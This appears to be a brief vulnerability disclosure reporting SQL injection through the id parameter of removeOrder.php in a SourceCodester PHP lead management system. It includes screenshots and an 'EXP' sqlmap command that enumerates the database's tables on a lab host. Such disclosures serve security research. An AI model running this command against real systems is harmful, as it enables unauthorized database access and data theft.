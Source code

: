 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208411177-fee294c2-0e3e-4b8b-bd0c-897078d304c5.png)


EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeOrder.php?id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208411225-ba3a35fb-8e2d-43f3-86f5-1e1543298700.png)

